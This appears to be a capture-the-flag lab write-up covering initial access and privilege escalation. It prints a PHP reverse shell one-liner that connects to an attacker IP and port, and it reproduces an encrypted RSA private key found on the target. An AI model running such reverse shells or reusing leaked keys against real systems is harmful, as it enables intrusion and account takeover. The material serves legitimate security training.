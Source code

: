 We are able to execute bash cmds here.

### Initial Access

So i went to [https://www.revshells.com/](https://www.revshells.com/) and got a php reverse shell.

```php
php -r '$sock=fsockopen("10.18.88.214",9000);shell_exec("/bin/bash <&3 >&3 2>&3");'
```

setup nc listener to catch it, execute it and got a shell.

<figure><img src=".gitbook/assets/image (581).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to xultimatecreeperxx

We found his ssh private key, we can login into his account via ssh.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3579498908433674083EAAD00F2D89F6

Sc3FPbCv/4DIpQUOalsczNkVCR+hBdoiAEM8mtbF2RxgoiV7XF2PgEehwJUhhyDG
+Bb/uSiC1AsL+UO8WgDsbSsBwKLWijmYCmsp1fWp3xaGX2qVVbmI45ch8ef3QQ1U
SCc7TmWJgI/Bt6k9J60WNThmjKdYTuaLymOVJjiajho799BnAQWE89jOLwE3VA5m
SfcytNIJkHHQR67K2z2f0noCh2jVkM0sx8QS+hUBeNWT6lr3pEoBKPk5BkRgbpAu
lSkN+Ubrq2/+DA1e/LB9u9unwi+zUec1G5utqfmNPIHYyB2ZHWpX8Deyq5imWwH9
FkqfnN3JpXIW22TOMPYOOKAjan3XpilhOGhbZf5TUz0StZmQfozp5WOU/J5qBTtQ
sXG4ySXCWGEq5Mtj2wjdmOBIjbmVURWklbsN+R6UiYeBE5IViA9sQTPXcYnfDNPm
stB2ukMrnmINOu0U2rrHFqOwNKELmzSr7UmdxiHCWHNOSzH4jYl0zjWI7NZoTLNA
eE214PUmIhiCkNWgcymwhJ5pTq5tUg3OUeq6sSDbvU8hCE6jjq5+zYlqs+DkIW2v
VeaVnbA2hij69kGQi/ABtS9PrvRDj/oSIO4YMyZIhvnH+miCjNUNxVuH1k3LlD/6
LkvugR2wXG2RVdGNIwrhtkz8b5xaUvLY4An/rgJpn8gYDjIJj66uKQs5isdzHSlf
jOjh5qkRyKYFfPegK32iDfeD3F314L3KBaAlSktPKpQ+ooqUtTa+Mngh3CL8JpOO
Hi6qk24cpDUx68sSt7wIzdSwyYW4A/h0vxnZSsU6kFAqR28/6pjThHoQ0ijdKgpO
8wj/u29pyQypilQoWO52Kis4IzuMN6Od+R8L4RnCV3bBR4ppDAnW3ADP312FajR+
DQAHHtfpQJYH92ohpj3dF5mJTT+aL8MfAhSUF12Mnn9d9MEuGRKIwHWF4d1K69lr
0GpRSOxDrAafNnfZoykOPRjZsswK3YXwFu3xWQFl3mZ7N+6yDOSTpJgJuNfiJ0jh
MBMMh4+r7McEOhl4f4jd0PHPf3TdxaONzHtAoj69JYDIrxwJ28DtVuyk89pu2bY7
mpbcQFcsYHXv6Evh/evkSGsorcKHv1Uj3BCchL6V4mZmeJfnde6EkINNwRW8vDY+
gIYqA/r2QbKOdLyHD+xP4SpX7VVFliXXW9DDqdfLJ6glMNNNbM1mEzHBMywd1IKE
Zm+7ih+q4s0RBClsV0IQnzCrSij//4urAN5ZaEHf0k695fYAKMs41/bQ/Tv7kvNc
T93QJjphRwSKdyQIuuDsjCAoB7VuMI4hCrEauTavXU82lmo1cALeNSgvvhxxcd7r
1egiyyvHzUtOUP3RcOaxvHwYGQxGy1kq88oUaE7JrV2iSHBQTy6NkCV9j2RlsGZY
fYGHuf6juOc3Ub1iDV1B4Gk0964vclePoG+rdMXWK+HmdxfNHDiZyN4taQgBp656
RKTM49I7MsdD/uTK9CyHQGE9q2PekljkjdzCrwcW6xLhYILruayX1B4IWqr/p55k
v6+jjQHOy6a0Qm23OwrhKhO8kn1OdQMWqftf2D3hEuBKR/FXLIughjmyR1j9JFtJ
-----END RSA PRIVATE KEY-----

```
